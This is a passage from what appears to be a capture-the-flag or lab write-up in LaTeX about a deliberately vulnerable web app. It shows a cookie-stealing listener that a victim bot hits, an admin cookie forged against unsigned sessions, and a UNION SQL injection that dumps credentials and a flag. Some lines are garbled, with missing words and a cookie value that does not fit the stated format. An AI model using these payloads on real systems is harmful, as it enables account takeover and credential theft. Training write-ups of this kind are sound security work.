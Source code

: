 \begin{lstlisting}
python3 -m http.server 8000
\end{lstlisting}

The victim bot visits  every \textasciitilde20 seconds. The cookie arrives in the listener log within one cycle.

\subsection{Vulnerability 2 --- Broken Authentication}

The session cookie format is \texttt{ID:ROLE:USERNAME} with no cryptographic signature:

\begin{lstlisting}
parts = session.split(':')
role = parts[1] if len(parts) > 1 else 'guest'
\end{lstlisting}

\textbf{Exploit} --- forge admin cookie in browser console:

\begin{lstlisting}
document.cookie = "session=1admin; path=/"
\end{lstlisting}

Immediately grants admin access without knowing the password.

\subsection{\texorpdfstring{Vulnerability 3 --- UNION SQL Injection ({\ttfamily /search})}{Vulnerability 3 --- UNION SQL Injection (/search)}}

The search route concatenates user input directly into the SQL query:

\begin{lstlisting}
query = "SELECT * FROM reports WHERE title LIKE '%" + q + "%'"
\end{lstlisting}

SQL errors are displayed in the browser. The \texttt{reports} table has 5 columns.

\textbf{Exploit} --- dump  table:

\begin{lstlisting}
' UNION SELECT 1,username,flag,password,5 FROM admin_users--
\end{lstlisting}

Returns: \texttt{FLAG} --- \textbf{FLAG \#1} plus credentials in the flag column.

